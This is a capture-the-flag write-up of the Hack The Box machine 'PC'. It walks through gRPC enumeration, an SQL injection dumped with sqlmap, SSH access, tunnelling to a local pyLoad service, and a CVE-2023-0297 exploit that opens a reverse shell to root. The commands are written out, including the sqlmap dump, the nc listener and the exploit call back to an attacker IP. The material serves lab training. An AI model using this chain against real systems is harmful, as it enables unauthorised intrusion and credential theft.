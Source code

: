 ```yaml
---
layout: default
title: PC
description: HTB - PC
---
```


## Enumeration

Nmap:
```
Nmap scan report for 10.10.11.214
Host is up (0.055s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
50051/tcp open  unknown
```
Ok, 2 ports open, one unknown. Let's search it up and find out what's what.

![image](https://raw.githubusercontent.com/TudM99/tudm99.github.io/main/images/pc_01.png)

So gRPC. Good, we now have something we can look into.

Another search for gRPC pentesting, brings out “grpcui”. (https://github.com/fullstorydev/grpcui)

Let's clone and use it.
```
# /root/go/bin/grpcui -plaintext 10.10.11.214:50051
gRPC Web UI available at http://127.0.0.1:34621/
```
![image](https://raw.githubusercontent.com/TudM99/tudm99.github.io/main/images/pc_02.png)

We'll now attempt to register a user, using the “RegisterUser” function, and check the output.

![image](https://raw.githubusercontent.com/TudM99/tudm99.github.io/main/images/pc_03.png)

Great! Our account appears to have been created. Let's try logging in.

![image](https://raw.githubusercontent.com/TudM99/tudm99.github.io/main/images/pc_04.png)

We now have a token, which we can input in this field, and use the “getInfo” function:

![token](https://raw.githubusercontent.com/TudM99/tudm99.github.io/main/images/pc_05.png)
![token](https://raw.githubusercontent.com/TudM99/tudm99.github.io/main/images/pc_06.png)

Response for the “getInfo” function:

![getinfo](https://raw.githubusercontent.com/TudM99/tudm99.github.io/main/images/pc_07.png)

We didn't get much info, so let's try seeing the request in burp.

We'll start burp in proxy mode, capture the request, and send it to repeater to check if we can alter it in some way.

![burp](https://raw.githubusercontent.com/TudM99/tudm99.github.io/main/images/pc_08.png)

I tried inputing different values (1, 0, etc) no output was given, I tried a php payload out of desperation, still didn't work.

I then figured out that the “id” parameter must be stored in a database. So I saved the request and threw it in sqlmap.

If you set the value of “id” to “***” ("id":"***"), sqlmap will know where to look.
```
sqlmap -r pcsql --dump-all --batch
```
BINGO!
```
Database: <current>
Table: accounts
[2 entries]
+------------------------+----------+
| password               | username |
+------------------------+----------+
| admin                  | admin    |
| [REDACTED] | sau      |
+------------------------+----------+

```
## Exploitation

And now let's ssh into the machine with the username “sau”.
```
ssh sau@10.10.11.214                                     
sau@10.10.11.214's password: 
Last login: Sat Sep 23 19:02:07 2023 from 10.10.11.214
bash-5.0$ 
bash-5.0$ ls
user.txt
bash-5.0$ cat user.txt
0c31efdfbc024f[REDACTED]
bash-5.0$ 
```

Let's snoop around in the usual places. /home, /opt, and run linpeas for good measure.
```
bash-5.0$ cd /opt
bash-5.0$ ls -la
total 12
drwxr-xr-x  3 root root 4096 Jan 11  2023 .
drwxr-xr-x 21 root root 4096 Apr 27 15:23 ..
drwxr-xr-x  3 root root 4096 Sep 23 19:14 app
bash-5.0$ cd app
bash-5.0$ ls
__pycache__  app.py      app_pb2_grpc.py  sqlite.db
app.proto    app_pb2.py  middle.py
bash-5.0$ cd /home
bash-5.0$ ls
sau
bash-5.0$ cd sau
bash-5.0$ ls
user.txt
```

Linpeas found a local connection, like we had on “Internal” from THM.

Let's create an SSH tunnel like we did there, and try to access it.
```
ssh -N -L 5555:127.0.0.1:8000 sau@10.10.11.214
sau@10.10.11.214's password: 
```
And we are met by a pyLoad login page:

![pyload](https://raw.githubusercontent.com/TudM99/tudm99.github.io/main/images/pc_09.png)

## Privilege Escalation

Previous credentials didn't work, so I started googling for possible exploits.

As luck would have it, I found a pre-auth RCE exploit -> CVE-2023-0297 

Let's download and launch it.

First, I'll set up a listener, and then run the exploit.

```
nc -lvnp 9002
Listening on 0.0.0.0 9002

python3 preauth.py -t 127.0.0.1:5555 -I 10.10.14.232 -P 9002 
[SUCCESS] Running reverse shell. Check your listener!

Connection received on 10.10.11.214 51996
bash: cannot set terminal process group (1059): Inappropriate ioctl for device
bash: no job control in this shell
root@pc:~/.pyload/data# 
root@pc:~/.pyload/data# id  
id
uid=0(root) gid=0(root) groups=0(root)

```

We have root! We can now read the “/root/root.txt” file, and submit our flags.

Good hunting o7

[Try it out yourself!](https://app.hackthebox.com/machines/PC) 

[back](./)
